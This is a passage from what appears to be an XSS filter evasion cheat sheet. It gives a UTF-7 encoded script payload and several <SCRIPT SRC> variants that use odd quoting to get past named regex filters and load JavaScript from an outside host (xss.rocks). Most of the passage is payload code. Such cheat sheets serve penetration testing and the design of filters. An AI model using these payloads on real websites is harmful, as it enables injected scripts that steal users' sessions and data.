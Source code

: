 UTF-7 Encoding
If the page that the XSS resides on doesn’t provide a page charset header, or any browser that is set to UTF-7 encoding can be exploited with the following (Thanks to Roman Ivanov for this one). Click here for an example (you don’t need the charset statement if the user’s browser is set to auto-detect and there is no overriding content-types on the page in Internet Explorer and Netscape 8.1 in IE rendering engine mode). This does not work in any modern browser without changing the encoding type which is why it is marked as completely unsupported. Watchfire found this hole in Google’s custom 404 script.:

```js
<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-

```
XSS Using HTML Quote Encapsulation
This was tested in IE, your mileage may vary. For performing XSS on sites that allow <SCRIPT> but don’t allow <SCRIPT SRC... by way of a regex filter /\<script\[^\>\]+src/i:

```js
<SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

For performing XSS on sites that allow <SCRIPT> but don’t allow \<script src... by way of a regex filter /\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i (this is an important one, because I’ve seen this regex in the wild):

```js
<SCRIPT =">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

Another XSS to evade the same filter, /\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i:

```js
<SCRIPT a=">" '' SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

Yet another XSS to evade the same filter, /\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i. I know I said I wasn’t goint to discuss mitigation techniques but the only thing I’ve seen work for this XSS example if you still want to allow <SCRIPT> tags but not remote script is a state machine (and of course there are other ways to get around this if they allow <SCRIPT> tags):

```js
<SCRIPT "a='>'" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

And one last XSS attack to evade, /\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i using grave accents (again, doesn’t work in Firefox):

```js
<SCRIPT a=> SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

Here’s an XSS example that bets on the fact that the regex won’t catch a matching pair of quotes but will rather find any quotes to terminate a parameter string improperly:

```js
<SCRIPT a=">'>" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```
